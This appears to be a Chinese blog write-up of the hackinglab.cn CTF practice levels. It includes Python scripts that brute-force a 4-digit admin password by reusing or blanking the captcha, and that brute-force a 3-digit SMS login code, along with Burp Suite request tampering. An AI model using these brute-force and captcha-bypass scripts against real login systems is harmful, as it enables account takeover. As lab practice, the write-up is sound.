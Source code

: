 ```yaml
---
layout: post
title: 网络安全实验室--脚本关writeup
tag: codes
---
```


##开始
>最近开始搞网络安全方面的实践，找到了[网络安全实验室](http://hackinglab.cn)这个网站。做了小部分的题目，顺便记录下做题过程的writeup。

####脚本关

###### [第一关](http://lab1.xseclab.com/xss1_30ac8668cd453e7e387c76b132b140bb/index.php)
点击链接后，页面会直接跳转到no_key_is_here_forever.php这个页面，然而根据页面源代码，应该是首先跳转到search_key.php，
<img src="/images/writeup1.png" />
所以，在search_key.php这个页面存在猫腻，接下来就是利用brup suite进行对数据的截取。
在http history中，找到三次get数据，其中关于search_key.php的响应如下：
<img src="/images/writeup1_1.png" />
Get Key! 从响应中也能发现，返回了一段script代码，页面自动跳转到no_key_is_here_forever.php，所以看不到返回的key。

###### [第二关](http://lab1.xseclab.com/xss2_0d557e6d2a4ac08b749b61473a075be1/index.php)
这一关比较直接，就是让你在2s内计算出结果，并提交。
经过观察，给出式子的格式是固定的，那么就只要获取数字，代入公式一样得出结果。
所以用python写脚本：

{% highlight python %}
#coding:utf-8
import requests
from bs4 import BeautifulSoup
import re

cookie = {'PHPSESSID':'9515090a314ddc0f6d7641af16f75fda'}
url = 'http://lab1.xseclab.com/xss2_0d557e6d2a4ac08b749b61473a075be1/index.php'
response = requests.get(url,cookies=cookie)

soup = BeautifulSoup(response.text,'html.parser')
form = soup.find('form')
form = str(form)
snum = re.findall(r'\d+',form)

num = []
for n in snum[1:]:
	num.append(int(n))

result = num[0] * num[1] +num[2] * (num[3] + num[4])

post = {'v' : result}
res = requests.post(url,cookies=cookie,data=post)

print res.content
{% endhighlight %}
结果：
<img src="/images/writeup2_1.png" />
Get key!

######[第三关](http://hackinglab.cn/ShowQues.php?type=scripts)
第三关没有链接，提示是这个题目是空的，空的，空：null(还提示是小写)。

######[第四关](http://lab1.xseclab.com/xss3_5dcdde90bbe55087eb3514405972b1a6/index.php)
点击网页上的链接，并没有出现弹窗。观察了一下页面源码。
<img src="/images/writeup4_1.png" />
前两个js函数导致弹窗的失败，试过把后面所要的代码放进到chrome中的console中运行，报错。然后就只能直接保存页面，删除文件里面的两个函数，直接打开。
<img src="/images/writeup4_2.png" />
Get key!

######[第五关](http://lab1.xseclab.com/vcode1_bcfef7eacf7badc64aaf18844cdb1c46/index.php)
暴力破解4位纯数字的密码，但是有验证码。虽然python能自动识别验证码，但是应该也能有什么绕过的方法。
依旧是开启brup suite，对提交的数据进行获取，然后放进brup suite里面重复提交，偶然发现只要页面没有进行刷新，产生的验证码就一直有效。
既然是脚本关，那就得用脚本来解决问题。

{% highlight python%}
#coding:utf-8

import requests

url = 'http://lab1.xseclab.com/vcode1_bcfef7eacf7badc64aaf18844cdb1c46/index.php'

username = 'admin'
submit = 'submit'

pwd = 1000
cookie = {'PHPSESSID':'9515090a314ddc0f6d7641af16f75fda'}
while True:
	post = {"username":username,'pwd':pwd,'vcode':'zp9p','submit':submit}

	res = requests.post(url,data=post,cookies=cookie)

	print res.content,'...',pwd
	pwd += 1
	if 'pwd' not in res.content:
		break

{% endhighlight %}
<img src="/images/writeup5_1.png" />
Get key!

######[第六关](http://lab1.xseclab.com/vcode2_a6e6bac0b47c8187b09deb20babc0e85/index.php)
依旧是验证码的问题。试试留空能不能绕过。

{% highlight python%}
#coding:utf-8

import requests

url = 'http://lab1.xseclab.com/vcode1_bcfef7eacf7badc64aaf18844cdb1c46/index.php'

username = 'admin'
submit = 'submit'

pwd = 1000
cookie = {'PHPSESSID':'9515090a314ddc0f6d7641af16f75fda'}
while True:
	post = {"username":username,'pwd':pwd,'vcode':'','submit':submit}

	res = requests.post(url,data=post,cookies=cookie)

	print res.content,'...',pwd
	pwd += 1
	if 'pwd' not in res.content:
		break

{% endhighlight %}
<img src="/images/writeup6_1.png" />
Get key!

######[第七关](http://lab1.xseclab.com/vcode3_9d1ea7ad52ad93c04a837e0808b17097/index.php)
同上，留空绕过验证码。
<img src="/images/writeup7_1.png" />

######[第八关](http://lab1.xseclab.com/base13_ead1b12e47ec7cc5390303831b779d47/index.php)
暂时没有解出来。

######[第九关](http://lab1.xseclab.com/vcode5_mobi_5773f3def9f77f439e058894cefc42a8/)
手机验证码登录，获取验证码后，提示please login as 13388886667，那就用这个号登录呗，又被告知
<img src="/images/writeup9_1.png" />
只能再用brup suite进行截取数据了。
<img src="/images/writeup9_2.png" />
有用只有6666这个号码能获取到验证码，那么就修改下数据包里面的参数，将号码改成6666获取一波验证码，试试看有没有用。
<img src="/images/writeup9_3.png" />
Get Key!

######[第十关](http://lab1.xseclab.com/vcode6_mobi_b46772933eb4c8b5175c67dbc44d8901/)
依旧是验证码，三位数的，python暴力的跑吧。

{% highlight python %}
#coding:utf-8

import requests

url = 'http://lab1.xseclab.com/vcode6_mobi_b46772933eb4c8b5175c67dbc44d8901/login.php'

username = '13388886666'
submit = 'submit'

vcode = 100
fobj = open('t.html','w')

cookie = {'PHPSESSID':'9515090a314ddc0f6d7641af16f75fda'}
while True:
	post = {"username":username,'vcode':vcode,'login':submit}

	res = requests.post(url,data=post,cookies=cookie)

	print res.content,'...',vcode
	vcode += 1
	fobj.writelines(res.content)
	if 'key'  in res.content:
		break

{% endhighlight %}
将所有的响应结果保存下来，发现这个。
<img src="/images/writeup10_1.png" />
再登录提示的账号，只要修改脚本里面的username就可以了。
<img src="/images/writeup10_2.png" />
Get Key!
